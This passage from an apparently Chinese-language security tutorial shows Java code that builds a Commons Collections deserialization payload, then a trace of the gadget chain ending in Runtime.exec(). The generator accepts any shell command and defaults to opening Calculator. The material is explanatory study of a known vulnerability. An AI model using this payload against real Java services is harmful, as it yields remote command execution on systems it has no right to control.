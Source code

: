 ```
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap();
        tempMap.put("value", "does't matter");
        Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, exMap);    

        return instance;
    }   

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app"; 

        Object obj = getAnnotationInvocationHandler(command);
        ObjectOutputStream out = new ObjectOutputStream(System.out);
        out.writeObject(obj);
    }
}

```

最终用一段调用链可以清晰的描述整个命令执行的触发过程：

```
/*
    Gadget chain:
        ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                AbstractInputCheckedMapDecorator$MapEntry.setValue()
                    TransformedMap.checkSetValue()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()  

    Requires:
        commons-collections <= 3.2.1
*/

```
